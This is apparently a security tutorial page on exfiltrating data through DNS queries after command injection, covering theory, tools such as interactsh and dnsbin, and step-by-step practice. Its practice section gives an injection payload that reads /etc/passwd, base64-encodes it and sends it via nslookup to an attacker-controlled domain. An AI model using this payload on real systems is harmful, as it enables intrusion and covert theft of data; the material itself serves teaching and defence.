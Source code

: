 ```yaml
---
title: Learn DNS Based Data Exfiltration Techniques
description: Explore how attackers use DNS queries for covert data exfiltration via
  command injection vulnerabilities.
keywords:
- DNS exfiltration
- command injection
- data leakage
- dnsbin
- interactsh
- DNS queries
- network security
---
```


# DNS Based Data Exfiltration

## Context

The objective of this guide is to demonstrate how to exfiltrate data through DNS requests using command injection vulnerabilities present in web applications. It assumes foundational knowledge of the DNS protocol, data exfiltration methods, and command injection techniques.

## Theory

### DNS as a Covert Exfiltration Channel

DNS-based data exfiltration leverages DNS queries to transmit sensitive data from a compromised host to an attacker-controlled domain. This technique is effective because DNS traffic is often allowed outbound through firewalls and is subject to less scrutiny compared to other protocols, making it a stealthy vector for data exfiltration. The typical attack sequence involves an attacker injecting commands into a vulnerable application, which then triggers DNS lookups. These lookups embed sensitive data within their subdomains, directing them towards an attacker-controlled DNS server.

### Mechanics of DNS Request Exfiltration

Sensitive data intended for exfiltration is encoded and appended as a subdomain in DNS queries to an attacker-controlled domain. The primary weakness exploited is the common lack of filtering or inspection of DNS queries for unintended data leakage, especially on the standard DNS port, UDP/53. Visualizing the process, the compromised web application allows command injection, resulting in a system command execution that forms a DNS query. This query, containing encoded user data as a subdomain, is sent to the attacker's DNS server, allowing the attacker to capture and decode the data.

```mermaid
flowchart TD
    A[Compromised Web App] -->|Command Injection| B[System Command]
    B -->|DNS Query with Data| C[Attacker DNS Server]
    C --> D[Data Captured by Attacker]
```

### DNS Exfiltration Tooling and Infrastructure

Tools like **dnsbin** and **interactsh** facilitate this technique by providing attacker-controlled DNS endpoints that listen for and capture DNS queries with exfiltrated data. The attacker needs to control a particular domain and set up infrastructure to monitor and analyze DNS queries effectively.

## Practice

### Exfiltrating Data via DNS Requests Using Command Injection

- **Set up an attacker-controlled DNS endpoint**:
  - Use tools like **interactsh** or **dnsbin** to create an endpoint that receives DNS queries containing exfiltrated data.

- **Command Line**:
  ```bash
  interactsh-client
  ```
  - Start the interactsh client to generate a unique domain and listen for incoming DNS queries.

- **Identify a Command Injection Point**:
  - Confirm the presence of a command injection vulnerability in the target web application. This step assumes that you have already identified such a point based on your prior knowledge and reconnaissance.

- **Inject Exfiltration Payload**:
  - Payload:
    ```bash
    $(cat /etc/passwd | base64 | xargs -I{} nslookup {}.attacker-domain.com)
    ```
  - This command injects a system call to read `/etc/passwd`, encodes its contents in base64, and sends them via DNS queries using `nslookup` to the attacker-controlled domain.

- **Monitor DNS Queries**:
  - Watch the interactsh or dnsbin interface for incoming DNS queries containing the exfiltrated data. These queries reveal subdomains with encoded sensitive data to be further processed and decoded by the attacker.

## Tools

- **interactsh-client**
- **dnsbin** 

Following these steps, an attacker can exfiltrate sensitive information using DNS queries in a covert manner, effectively bypassing many traditional security measures. This guide illustrates the process and highlights the risks associated with insufficient scrutiny of DNS traffic.